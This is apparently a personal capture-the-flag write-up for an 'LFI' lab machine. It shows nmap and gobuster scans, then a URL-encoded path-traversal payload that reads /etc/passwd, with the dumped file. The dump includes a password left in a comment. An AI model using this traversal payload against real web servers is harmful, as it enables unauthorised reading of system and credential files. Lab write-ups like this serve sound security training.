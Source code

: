 #+TITLE: LFI

* nmap
- results
  2 ports open
  ssh on usual port
  http on usual port
  ubuntu machine

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.57.130
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-11 13:03 GMT
Nmap scan report for 10.10.57.130
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

#+end_src


* gobuster
- it discovers nothing

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # gobuster dir -u 10.10.57.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o go.scan
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.57.130
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/11 13:04:48 Starting gobuster
===============================================================
Progress: 17350 / 87665 (19.79%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/11 13:11:29 Finished
===============================================================

#+end_src

* usernames

- after digging with zap we not only find a username but we get an exploit
  : falconfeast

* vulnerability

- local file inclusion
  : http://10.10.57.130/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

- contents of /etc/passwd
  : root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
